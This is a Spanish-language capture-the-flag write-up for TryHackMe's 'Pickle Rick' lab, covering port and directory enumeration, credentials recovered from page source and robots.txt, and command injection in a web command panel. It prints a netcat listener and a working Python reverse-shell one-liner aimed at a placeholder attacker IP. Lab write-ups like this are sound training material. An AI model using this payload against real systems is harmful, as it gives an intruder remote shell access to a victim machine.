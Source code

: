 

# Writeup: Pickle Rick

![Banner de Pickle Rick](images/pickle_banner.png)

**Pickle Rick** es un desafío de nivel **Fácil** de la plataforma **TryHackMe**. En este writeup, documento los pasos que seguí para obtener acceso al sistema, escalar privilegios y encontrar los 3 ingredientes.

---

## 📊 Datos Esenciales

- **IP de la Máquina:** `10.10.220.243`
- **Sistema Operativo:** `Linux`
- **Tipo de Máquina:** `[ej. Web, Forense, Reversing]`
- **Banderas:** `[ej. user.txt, root.txt]`
- **Tiempo de Resolución:** `30 min`

---

## 🕵️‍♂️ Fase 1: Reconocimiento y Enumeración

El primer paso fue realizar un escaneo de puertos para identificar los servicios activos en la máquina. Utilicé `nmap` con los siguientes parámetros para un escaneo de versiones y scripts:
```bash
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 10.10.220.243 -oN escaneo
```

El escaneo inicial con **Nmap** confirmó que la máquina está en línea y reveló los siguientes puertos abiertos:

* **Puerto 22 (SSH)**
    * **Servicio:** OpenSSH 8.2p1

* **Puerto 80 (HTTP)**
    * **Servicio:** Apache httpd 2.4.41
    * **Título del sitio:** "Rick is sup4r cool"
  
**Análisis del Sitio Web (Puerto 80)**
Al navegar a la dirección IP, se encontró un sitio web con temática de **Rick y Morty**. La página principal mostraba una imagen y un mensaje de ayuda de Rick para Morty.

![alt](images/1png.png)

Al inspeccionar el **código fuente** de la página (presionando `Ctrl + U`), se descubrió un comentario oculto.

![alt](images/2.png)

Este comentario revelaba una nota para un usuario, proporcionando una pista valiosa:

Con esta información, hemos obtenido un posible nombre de usuario: `RickRu13s`. Este dato será crucial para la siguiente fase de enumeración.

-----

### **Enumeración de Directorios con Gobuster**

Para continuar con el reconocimiento del sitio web, utilicé la herramienta **Gobuster** para buscar directorios y archivos ocultos. Esto nos ayuda a encontrar posibles puntos de entrada que no son visibles a simple vista. El comando ejecutado fue:

```bash
gobuster dir -u http://10.10.220.243/ -t 200 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

El escaneo de Gobuster reveló varios directorios y archivos de interés:

  * **/login.php** (Status: 200)
  * **/assets/** (Status: 301)
  * **/portal.php** (Status: 302)
  * **/robots.txt** (Status: 200)

De estos hallazgos, el archivo **`/robots.txt`** captó mi atención. Al navegar a esa dirección en el navegador, encontré un texto plano que resultó ser una contraseña.

-----

### **Obtención de Credenciales y Acceso**

Con un nombre de usuario y una contraseña en mano, me dirigí a la página de inicio de sesión que habíamos encontrado previamente: **`/login.php`**.

  * **Usuario:** `RickRu13s` (obtenido del código fuente de la página principal)
  * **Contraseña:** `Wubbalubbadubdub` (encontrada en el archivo `robots.txt`)

Al introducir estas credenciales, logré acceder al sistema, lo que marca el final de la fase de enumeración y el inicio de la explotación.

-----

### 💥 Fase 2: Explotación y Acceso Inicial

Una vez con las credenciales, inicié sesión en la página **`/login.php`** y fui redirigido a una nueva sección: **`portal.php`**. Esta página presentaba un "Panel de Comandos" con un campo de texto para ejecutar comandos.

\!
Esta interfaz sugería una vulnerabilidad de **inyección de comandos**. Para confirmar esto y obtener acceso al sistema, decidí ejecutar una **reverse shell**.

  * **Reverse Shell:** Usando una *reverse shell*, un atacante puede hacer que la máquina víctima se conecte a la suya, dándole un control completo sobre el sistema.

Para lograrlo, primero abrí un *listener* en mi máquina atacante con `netcat` en el puerto `4444`.

```bash
nc -lvnp 4444
```

Luego, en el "Panel de Comandos" de la máquina víctima, ejecuté un *payload* de *reverse shell* de Python.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<TU_IP_ATACANTE>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

Después de ejecutar el comando, recibí una conexión en mi *listener* de `netcat`, lo que me dio una *shell* con el usuario **`www-data`**. Ahora, el objetivo es encontrar los tres ingredientes y, finalmente, escalar privilegios para obtener el control total.

      
